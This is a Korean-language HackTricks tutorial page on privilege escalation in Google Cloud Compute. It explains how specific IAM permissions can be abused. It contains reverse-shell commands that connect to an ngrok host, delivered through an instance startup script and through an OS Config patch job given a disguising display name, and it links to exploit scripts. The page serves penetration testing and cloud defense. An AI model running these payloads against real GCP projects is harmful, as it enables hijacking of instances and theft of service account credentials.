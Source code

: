 # GCP - Compute Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Compute

GCP에서 Compute 및 VPC(네트워크)에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

{% hint style="danger" %}
인스턴스의 메타데이터를 수정해야 하는 모든 권한 상승 공격(새 사용자 및 SSH 키 추가 등)을 수행하려면 **인스턴스에 연결된 SA에 대해 `actAs` 권한이 필요합니다**, SA가 이미 연결되어 있더라도!
{% endhint %}

### `compute.projects.setCommonInstanceMetadata`

이 권한을 사용하면 **인스턴스**의 **메타데이터** 정보를 **수정**하고 **사용자의 인증된 키**를 변경하거나 **sudo** 권한이 있는 **새 사용자**를 **생성**할 수 있습니다. 따라서 SSH를 통해 모든 VM 인스턴스에 접속하고 인스턴스가 실행 중인 GCP 서비스 계정을 탈취할 수 있습니다.\
제한 사항:

* GCP 서비스 계정은 기본적으로 VM 인스턴스에서 **매우 제한된 범위**를 가집니다.
* 로그인하려면 **SSH** 서버에 **연락할 수 있어야** 합니다.

이 권한을 악용하는 방법에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="gcp-add-custom-ssh-metadata.md" %}
[gcp-add-custom-ssh-metadata.md](gcp-add-custom-ssh-metadata.md)
{% endcontent-ref %}

새 시작 스크립트를 추가하고 인스턴스를 재부팅하여 이 공격을 수행할 수도 있습니다:
```bash
gcloud compute instances add-metadata my-vm-instance \
--metadata startup-script='#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18347 0>&1 &'

gcloud compute instances reset my-vm-instance
```
### `compute.instances.setMetadata`

이 권한은 **이전 권한과 동일한 권한**을 특정 인스턴스에 부여하며 전체 프로젝트에 대한 것이 아닙니다. **이전 섹션과 동일한 취약점과 제한 사항이 적용됩니다**.

### `compute.instances.setIamPolicy`

이러한 종류의 권한은 **이전 권한으로 역할을 부여할 수 있게 해주며** 이를 악용하여 권한을 상승시킬 수 있습니다.

### **`compute.instances.osLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**은 없습니다.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### **`compute.instances.osAdminLogin`**

**OSLogin이 인스턴스에서 활성화된 경우**, 이 권한으로 **`gcloud compute ssh [INSTANCE]`**를 실행하여 인스턴스에 연결할 수 있습니다. 인스턴스 내에서 **루트 권한**을 가집니다.

{% hint style="success" %}
이 권한으로 VM 인스턴스에 성공적으로 로그인하려면 VM에 연결된 SA에 대해 `iam.serviceAccounts.actAs` 권한이 필요합니다.
{% endhint %}

### `compute.instances.create`,`iam.serviceAccounts.actAs, compute.disks.create`, `compute.instances.create`, `compute.instances.setMetadata`, `compute.instances.setServiceAccount`, `compute.subnetworks.use`, `compute.subnetworks.useExternalIp`

**서비스 계정이 할당된 가상 머신을 생성하고 메타데이터에 접근하여 서비스 계정의 토큰을 훔치는 것이 가능합니다**. 이를 통해 권한을 상승시킬 수 있습니다.

이 방법에 대한 익스플로잇 스크립트는 [여기](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/compute.instances.create.py)에서 찾을 수 있습니다.

### `osconfig.patchDeployments.create` | `osconfig.patchJobs.exec`

**`osconfig.patchDeployments.create`** 또는 **`osconfig.patchJobs.exec`** 권한이 있는 경우 [**패치 작업 또는 배포**](https://blog.raphael.karger.is/articles/2022-08/GCP-OS-Patching)를 생성할 수 있습니다. 이를 통해 환경 내에서 수평 이동을 하고 프로젝트 내 모든 컴퓨트 인스턴스에서 코드 실행을 얻을 수 있습니다.

현재로서는 인스턴스에 연결된 SA에 대해 **`actAs` 권한이 필요하지 않습니다**.

이것을 수동으로 악용하려면 [**패치 작업**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_job.json) **또는** [**배포**](https://github.com/rek7/patchy/blob/main/pkg/engine/patches/patch_deployment.json)**를 생성해야 합니다.**\
패치 작업을 실행하려면: 

{% code overflow="wrap" %}
```python
cat > /tmp/patch-job.sh <<EOF
#!/bin/bash
bash -i >& /dev/tcp/0.tcp.eu.ngrok.io/18442 0>&1
EOF

gsutil cp /tmp/patch-job.sh gs://readable-bucket-by-sa-in-instance/patch-job.sh

# Get the generation number
gsutil ls -a gs://readable-bucket-by-sa-in-instance

gcloud --project=$PROJECT_ID compute os-config patch-jobs execute \
--instance-filter-names=zones/us-central1-a/instances/<instance-name> \
--pre-patch-linux-executable=gs://readable-bucket-by-sa-in-instance/patch-job.sh#<generation-number> \
--reboot-config=never \
--display-name="Managed Security Update" \
--duration=300s
```
{% endcode %}

패치 배포를 배포하려면:
```bash
gcloud compute os-config patch-deployments create <name> ...
```
The tool [patchy](https://github.com/rek7/patchy)는 과거에 이 잘못된 구성으로 악용될 수 있었지만 (현재는 작동하지 않음).

**공격자는 이를 지속성을 위해 악용할 수도 있습니다.**

### `compute.machineImages.setIamPolicy`

**컴퓨트 이미지에 대한 추가 권한을 부여하세요.**

### `compute.snapshots.setIamPolicy`

**디스크 스냅샷에 대한 추가 권한을 부여하세요.**

### `compute.disks.setIamPolicy`

**디스크에 대한 추가 권한을 부여하세요.**

### 접근 범위 우회

이 링크를 따라가면 [**접근 범위를 우회하기 위한 아이디어**](../)를 찾을 수 있습니다.

### GCP 컴퓨트 인스턴스에서의 로컬 권한 상승

{% content-ref url="../gcp-local-privilege-escalation-ssh-pivoting.md" %}
[gcp-local-privilege-escalation-ssh-pivoting.md](../gcp-local-privilege-escalation-ssh-pivoting.md)
{% endcontent-ref %}

## 참고자료

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWS 해킹 배우고 연습하기:<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP 해킹 배우고 연습하기: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks 지원하기</summary>

* [**구독 계획**](https://github.com/sponsors/carlospolop) 확인하기!
* **💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 참여하거나 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**를 팔로우하세요.**
* **[**HackTricks**](https://github.com/carlospolop/hacktricks) 및 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) 깃허브 리포지토리에 PR을 제출하여 해킹 트릭을 공유하세요.**

</details>
{% endhint %}
